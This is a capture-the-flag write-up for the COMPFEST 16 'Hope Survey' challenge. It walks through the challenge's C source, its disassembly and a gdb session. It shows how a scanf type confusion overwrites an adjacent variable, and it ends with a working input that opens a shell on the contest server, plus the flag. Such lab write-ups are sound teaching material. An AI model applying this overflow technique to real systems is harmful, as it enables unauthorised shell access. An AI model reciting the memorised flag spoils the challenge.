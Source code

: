 # Baby COMPFEST Hope Survey Writeup by Deffreus - CompfestCTF 16

######  Author: NeoZap

## Description

Welcome to Hacker Class CTF COMPFEST 16!
Please fill our form with your hopes of the event.
We will try our best to make it happen!
. . . Wait what did you say?
The form is broken?
Oh welp, it was already broken in the first place 🤪🤪🤪

`nc challenges.ctf.compfest.id 20005`

[chall](https://ctf.compfest.id/files/8b021f2c140e7522c087b0eb21118f51/chall?token=eyJ1c2VyX2lkIjo3MiwidGVhbV9pZCI6MzA3LCJmaWxlX2lkIjo2MX0.ZrHh-w.o5pE3M6PnOou_OCarOEc8o5Dltg) [chall.c](https://ctf.compfest.id/files/044838342630825384efb9b42f5fff8e/chall.c?token=eyJ1c2VyX2lkIjo3MiwidGVhbV9pZCI6MzA3LCJmaWxlX2lkIjo2Mn0.ZrHh-w.iy-niymCzqLKSIJ1KEu3qyVK4PI)

## Files

```
$ file chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=761bc45382457dd85b234cc9c8fc895e693a5b4d, for GNU/Linux 3.2.0, not stripped
```

`chall.c`:

```chall.c
#include <stdio.h>
#include <stdlib.h>

#define BUF_SIZE 0x100

__attribute__((constructor)) _()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    puts("Selamat datang para peserta CTF COMPFEST 16!");
    puts("Sebelum tahap penyisihan, kami ingin mengetahui harapan Anda sebagai peserta kami.");
    puts("Silakan isi form berikut dengan harapan Anda. Terima kasih!");
}

void read_val(const char *msg, void *ptr)
{
    printf("%s", msg);
    scanf("%ld", ptr);
}

int main()
{
    puts("\n===== Form Harapan Peserta CTF COMPFEST 16 =====");

    int key = 0;
    int length;
    read_val("Panjang harapan (biar efisien harap maklum): ", &length);
    if (length < 0 || length >= BUF_SIZE)
    {
        printf("Hayo jangan nackal ya dek...\n");
        return -1;
    }

    if (key == 0xDEADBEEF)
    {
        puts("\nEmang boleh se-hengker ini...");
        system("/bin/sh");
        return 69;
    }

    puts("Mohon maaf saat ini form sedang dalam perbaikan. Silakan coba chall sebelah dulu hehe.");
}
```

## Solution

The main vulnerability here is `read_val`, specifically, the `scanf`.
It read a signed long integer (8 bytes) and write it to `length`, an signed integer (4 bytes).
As key and length are declared next to each other,
When the extra 4 bytes overflow from `length`,
they'll go to `key`!

We want to pass `if (key == 0xDEADBEEF)` so that we can get a shell thanks to `system("/bin/sh")`.
Presumably, the flag is on the server.
To do this, we need to use an input that'll overflow `key` with `0xDEADBEEF`.

The input I got it working is: `-2401053092612145152`, or `0xDEADBEEF00000000`.
How?
This has something to do with two's complement: `0xDEADBEEF` has `1` as it's most significant bit (`0xd` -> `0b1101`),
so technically `0xDEADBEEF` is a negative number.
The last 4 bytes, `0x00000000` is used to pass `if (length < 0 || length >= BUF_SIZE)`,
so we can reach the second if statement leading to the shell.

The assembly of `main` looks like this:

```asm
   0x000000000040121f <+0>:     push   rbp
   0x0000000000401220 <+1>:     mov    rbp,rsp
   0x0000000000401223 <+4>:     sub    rsp,0x10
   0x0000000000401227 <+8>:     lea    rax,[rip+0xeaa]        # 0x4020d8
   0x000000000040122e <+15>:    mov    rdi,rax
   0x0000000000401231 <+18>:    call   0x401030 <puts@plt>
   0x0000000000401236 <+23>:    mov    DWORD PTR [rbp-0x4],0x0
   0x000000000040123d <+30>:    lea    rax,[rbp-0x8]
   0x0000000000401241 <+34>:    mov    rsi,rax
   0x0000000000401244 <+37>:    lea    rax,[rip+0xec5]        # 0x402110
   0x000000000040124b <+44>:    mov    rdi,rax
   0x000000000040124e <+47>:    call   0x4011d6 <read_val>
   0x0000000000401253 <+52>:    mov    eax,DWORD PTR [rbp-0x8]
   0x0000000000401256 <+55>:    test   eax,eax
   0x0000000000401258 <+57>:    js     0x401264 <main+69>
   0x000000000040125a <+59>:    mov    eax,DWORD PTR [rbp-0x8]
   0x000000000040125d <+62>:    cmp    eax,0xff
   0x0000000000401262 <+67>:    jle    0x40127a <main+91>
   0x0000000000401264 <+69>:    lea    rax,[rip+0xed3]        # 0x40213e
   0x000000000040126b <+76>:    mov    rdi,rax
   0x000000000040126e <+79>:    call   0x401030 <puts@plt>
   0x0000000000401273 <+84>:    mov    eax,0xffffffff
   0x0000000000401278 <+89>:    jmp    0x4012bc <main+157>
   0x000000000040127a <+91>:    cmp    DWORD PTR [rbp-0x4],0xdeadbeef
   0x0000000000401281 <+98>:    jne    0x4012a8 <main+137>
   0x0000000000401283 <+100>:   lea    rax,[rip+0xed6]        # 0x402160
   0x000000000040128a <+107>:   mov    rdi,rax
   0x000000000040128d <+110>:   call   0x401030 <puts@plt>
   0x0000000000401292 <+115>:   lea    rax,[rip+0xee6]        # 0x40217f
   0x0000000000401299 <+122>:   mov    rdi,rax
   0x000000000040129c <+125>:   call   0x401040 <system@plt>
   0x00000000004012a1 <+130>:   mov    eax,0x45
   0x00000000004012a6 <+135>:   jmp    0x4012bc <main+157>
   0x00000000004012a8 <+137>:   lea    rax,[rip+0xed9]        # 0x402188
   0x00000000004012af <+144>:   mov    rdi,rax
   0x00000000004012b2 <+147>:   call   0x401030 <puts@plt>
   0x00000000004012b7 <+152>:   mov    eax,0x0
   0x00000000004012bc <+157>:   leave  
   0x00000000004012bd <+158>:   ret
```

The compare instruction for `key` is at `0x000000000040127a`, so I put a break point there (`b *main+91`).
`gdb` will halt the program when we get there and that'll let us inspect the stack at that time.
With `-2401053092612145152` as input number, here's how it was in `gdb` on that breakpoint:

```
─────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x10              
$rdx   : 0x0               
$rsp   : 0x00007ffdd7da5b70  →  0x0000000000000000
$rbp   : 0x00007ffdd7da5b80  →  0x0000000000000001
$rsi   : 0x2152411100000000
$rdi   : 0x00007ffdd7da5610  →  "-2401053092612145152"
$rip   : 0x000000000040127a  →  <main+005b> cmp DWORD PTR [rbp-0x4], 0xdeadbeef
$r8    : 0x1999999999999999
$r9    : 0x0               
$r10   : 0x00007fc4ef13eac0  →  0x0000000100000000
$r11   : 0x00007fc4ef13f3c0  →  0x0002000200020002
$r12   : 0x00007ffdd7da5c98  →  0x00007ffdd7da6759  →  "/home/d3ffr3u5-picoctf/chall"
$r13   : 0x000000000040121f  →  <main+0000> push rbp
$r14   : 0x0000000000403e00  →  0x0000000000401130  →  <__do_global_dtors_aux+0000> endbr64 
$r15   : 0x00007fc4ef1f8040  →  0x00007fc4ef1f92e0  →  0x0000000000000000
$eflags: [zero CARRY parity ADJUST SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
─────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffdd7da5b70│+0x0000: 0x0000000000000000   ← $rsp
0x00007ffdd7da5b78│+0x0008: 0xdeadbeef00000000
0x00007ffdd7da5b80│+0x0010: 0x0000000000000001   ← $rbp
0x00007ffdd7da5b88│+0x0018: 0x00007fc4eefa9d90  →  <__libc_start_call_main+0080> mov edi, eax
0x00007ffdd7da5b90│+0x0020: 0x0000000000000000
0x00007ffdd7da5b98│+0x0028: 0x000000000040121f  →  <main+0000> push rbp
0x00007ffdd7da5ba0│+0x0030: 0x0000000100000000
0x00007ffdd7da5ba8│+0x0038: 0x00007ffdd7da5c98  →  0x00007ffdd7da6759  →  "/home/d3ffr3u5-picoctf/chall"
───────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40126e <main+004f>      call   0x401030 <puts@plt>
     0x401273 <main+0054>      mov    eax, 0xffffffff
     0x401278 <main+0059>      jmp    0x4012bc <main+157>
 →   0x40127a <main+005b>      cmp    DWORD PTR [rbp-0x4], 0xdeadbeef
     0x401281 <main+0062>      jne    0x4012a8 <main+137>
     0x401283 <main+0064>      lea    rax, [rip+0xed6]        # 0x402160
     0x40128a <main+006b>      mov    rdi, rax
     0x40128d <main+006e>      call   0x401030 <puts@plt>
     0x401292 <main+0073>      lea    rax, [rip+0xee6]        # 0x40217f
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
(gdb) c
Continuing.
Emang boleh se-hengker ini...
[Detaching after vfork from child process 301]
```

We can see that at `0x00007ffdd7da5b78` or `stack+0x008`,
we have the value `0xDEADBEEF00000000`.
That output mean that we're correct, and if we continue from here, we should pass the `key` check!
Now let's just do it on the real instance:

```
$ nc challenges.ctf.compfest.id 20005                     
Selamat datang para peserta CTF COMPFEST 16!
Sebelum tahap penyisihan, kami ingin mengetahui harapan Anda sebagai peserta kami.
Silakan isi form berikut dengan harapan Anda. Terima kasih!

===== Form Harapan Peserta CTF COMPFEST 16 =====
Panjang harapan (biar efisien harap maklum): -2401053092612145152

Emang boleh se-hengker ini...
ls
Makefile
bin
chall
chall.c
chall_patched
dev
flag.txt
lib
lib32
lib64
libx32
usr
cat flag.txt
COMPFEST16{now_you_know_type_confusion_and_how_dangerous_it_is_61674dad07}
```

We got a shell, then print the content of `flag.txt`!
Yay!

Flag: `COMPFEST16{now_you_know_type_confusion_and_how_dangerous_it_is_61674dad07}`
